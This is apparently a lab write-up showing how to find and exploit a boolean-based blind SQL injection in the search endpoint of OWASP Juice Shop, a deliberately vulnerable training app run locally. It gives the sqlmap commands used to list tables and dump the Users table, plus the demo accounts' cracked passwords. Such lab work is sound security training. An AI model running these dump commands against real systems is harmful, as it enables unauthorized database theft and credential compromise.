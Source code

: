 # 🔓 SQL Injection Lab – OWASP Juice Shop

This lab demonstrates how to discover and exploit a **boolean-based blind SQL injection** vulnerability in OWASP Juice Shop using `sqlmap`.

---

## 🛠️ Lab Environment

- **Target:** OWASP Juice Shop (Docker)
- **Attacker:** Kali Linux VM
- **Tools Used:** Docker, Firefox Dev Tools, SQLMap

---

## 🚀 Steps Performed

## 1. Started Juice Shop

bash

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

Juice Shop accessible at: http://localhost:3000

## 2. Found SQLi Vulnerability

Searched for a product in the Juice Shop search bar using '

Captured the backend request: GET /rest/products/search?q=

Used Firefox Dev Tools → “Copy as cURL” → converted into raw HTTP request (juice-request.txt)

## 3. Ran SQLMap

sqlmap -r juice-request.txt --batch --tables

✅ Backend DBMS: SQLite

✅ SQL Injection Type: Boolean-based blind

✅ 20 database tables retrieved

## 4. Dumped Users Table

sqlmap -r juice-request.txt --batch -T Users --dump

## 5. Cracked Password Hashes
SQLMap auto-cracked several MD5 hashes using its built-in dictionary:

| Email                    | Role     | Cracked Password |
| ------------------------ | -------- | ---------------- |
| `J12934@juice-sh.op`     | admin    | `admin123`       |
| `demo`                   | customer | `demo`           |
| `uvogin@juice-sh.op`     | deluxe   | `private`        |
| `accountant@juice-sh.op` | customer | `ncc-1701`       |


## 🧠 Takeaways
SQL injection can still be found in modern web apps using APIs.

SQLite doesn’t support multi-db enumeration, but data can still be dumped.

Weak passwords make post-exploitation trivial.
